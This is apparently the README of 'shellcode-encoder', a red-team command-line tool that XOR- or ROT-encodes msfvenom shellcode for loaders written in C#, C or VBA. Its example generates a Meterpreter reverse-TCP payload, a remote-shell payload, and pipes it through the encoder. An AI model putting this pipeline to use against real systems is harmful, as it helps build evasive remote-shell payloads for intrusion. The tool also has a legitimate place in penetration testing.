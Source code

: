 # shellcode-encoder

CLI utility to encode msfvenom generated shellcode.

Reads shellcode in hex format from stdin, and then performs selected encoding and outputs encoded shellcode with a decoding routine.

Intended use is for shellcode loaders.

Supported encodings:
- XOR
- ROT

Supported output formats:
- C# (csharp)
- C (c)
- VBA (vbapplication)

## Installation

```sh
cargo install --git https://github.com/aol1306/shellcode-encoder
```

## Example usage

Encode shellcode from msfvenom using XOR operation (`output[i] = shellcode[i] ^ 17`):

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f hex | shellcode-encoder -f csharp -e xor -k 17
```

View help:

```sh
shellcode-encoder --help
```